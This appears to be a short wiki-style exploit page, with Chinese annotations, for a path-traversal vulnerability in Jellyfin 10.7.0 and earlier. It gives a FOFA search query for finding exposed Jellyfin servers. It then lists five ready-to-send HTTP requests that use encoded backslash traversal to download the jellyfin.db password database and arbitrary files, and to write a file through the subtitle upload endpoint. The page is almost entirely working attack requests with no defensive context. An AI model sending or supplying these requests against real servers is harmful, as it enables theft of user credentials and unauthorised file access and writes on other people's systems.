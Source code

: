 <languages  />

<translate>

影響版本
--------

</translate>

    jellyfin<=10.7.0

FOFA
----

    title="Jellyfin"

POC1
----

<translate> 從服務器下載帶有密碼的`jellyfin.db` </translate>

    GET /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/ HTTP/1.1
    Host: x.x.x.x
    accept: application/json
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Referer: http://x.x.x.x/web/index.html
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

POC2
----

    GET /Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db HTTP/1.1

POC3
----

    GET /Videos/anything/hls/..%5Cdata%5Cjellyfin.db/stream.m3u8/?api_key=4c5750626da14b0a804977b09bf3d8f7 HTTP/1.1

POC4
----

<translate> 要下載的POC `c:tempfilename.jpg` </translate>

    GET /Images/Ratings/c:%5ctemp/filename HTTP/1.1
    GET /Images/Ratings/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5ctemp/filename HTTP/1.1

POC5
----

    POST /Videos/d7634eb0064cce760f3f0bf8282c16cd/Subtitles HTTP/1.1
    ...
    X-Emby-Authorization: MediaBrowser DeviceId="...", Version="10.7.0", Token="..."
    ...

    {"language":".\..\","format":".\..\test.bin","isForced":false,"data":"base64 encoded data"}
